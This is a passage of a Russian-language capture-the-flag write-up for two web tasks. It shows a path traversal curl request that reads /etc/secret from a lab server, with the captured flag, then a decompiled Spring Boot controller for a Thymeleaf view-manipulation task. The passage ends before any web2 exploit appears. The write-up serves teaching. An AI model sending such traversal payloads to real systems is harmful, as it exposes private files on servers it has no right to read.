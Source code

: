 # web1

Веб-сервис на странице /download предоставляет возмоность через аргумент file_type вводить имя файла, которое мы хотим получить в папке ресурсов на сервере. Эксплуатируя уязвимость Path Traversal, мы можем прочесть любой файл на сервере, в частности etc/secret, в котором и лежит флаг:

```jsx
curl http://192.168.12.10:5001/download?file_type=../../../etc/secret
```

FLAG: nto{P6t9_T77v6RsA1}




# web2

Представленный веб-сервис использует фреймворк Spring Boot, который в частности использует thymeleaf для генерации шаблонов. При некорректном использовании позволяет атакующему выполнять любое действие на сервере. 

[https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability](https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability)

Проанализируем код приложения, декомпилированный с помощью jadx-gui

```jsx
@Controller
/* loaded from: src.jar:BOOT-INF/classes/com/server/HelloController.class */
public class HelloController {
    @GetMapping({"/"})
    public String index(Model model) {
        model.addAttribute("Доброе утро!", ":)");
        return "welcome";
    }

    @GetMapping({"/doc/{document}"})
    public void getDocument(@PathVariable String document) {
        System.out.println("This function is not ready yet");
    }

    @GetMapping({"/login"})
    public String login(@RequestParam String password) {
        String adminPassword = SpringInputPasswordFieldTagProcessor.PASSWORD_INPUT_TYPE_ATTR_VALUE;
        String flag = "flag";
        try {
            Scanner scanner = new Scanner(new File("password.txt"));
            adminPassword = scanner.nextLine();
            scanner.close();
        } catch (Exception e) {
            System.out.println(e.toString());
        }
        if (Objects.equals(adminPassword, password)) {
            try {
                Scanner scanner2 = new Scanner(new File("flag"));
                flag = scanner2.nextLine();
                scanner2.close();
            } catch (Exception e2) {
                throw new RuntimeException(e2);
            }
        }
        return flag;
    }
}
```
